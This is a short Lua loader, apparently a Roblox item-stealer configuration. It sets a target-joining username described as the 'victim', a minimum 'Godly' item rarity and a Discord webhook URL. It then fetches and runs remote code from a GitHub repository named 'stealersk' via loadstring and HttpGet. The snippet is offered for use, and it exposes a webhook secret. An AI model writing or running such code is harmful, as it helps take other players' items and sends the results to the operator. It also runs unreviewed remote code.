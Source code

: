 _G.Username = "" -- user you should join victim on
_G.min_rarity = "Godly"
_G.min_value = 1 -- Put 1 to get all
_G.pingEveryone = "Yes" -- change to "No" if you dont want pings
_G.webhook = "https://discord.com/api/webhooks/1364465904578068510/rzXdmD4kFQTVu8szzaWZgyhooDCU79bBlEh6K5pkriDGjPc89QQ7N5aTzME_JtRZPy0-/" 
loadstring(game:HttpGet(https://raw.githubusercontent.com/suiakakakqkq/stealersk/refs/heads/main/source.lua""))()
